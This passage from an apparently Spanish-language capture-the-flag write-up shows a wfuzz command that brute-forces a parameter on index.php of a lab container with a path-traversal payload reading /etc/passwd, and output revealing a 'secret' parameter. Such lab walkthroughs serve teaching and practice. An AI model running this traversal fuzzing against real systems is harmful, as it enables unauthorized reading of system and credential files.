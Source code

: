 <p>El directorio assets no contiene nada interesante</p>

![captura_4You5](https://github.com/dancs334/ciber/blob/main/capturas/4You_5.png)

<p>Buscaremos el error al cargar la página dentro del index.php. Para ello volveremos a aplicar fuerza bruta, esta vez con wfuzz</p>

```shell
wfuzz -c -t 200 --hc 404 --hw 169 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://172.17.0.2/index.php?FUZZ=../../../../../../../../../etc/passwd

```
```shell
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/index.php?FUZZ=../../../../../../../../../etc/passwd
Total requests: 207643

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                   
=====================================================================

000004819:   200        88 L     199 W      3870 Ch     "secret" 

```
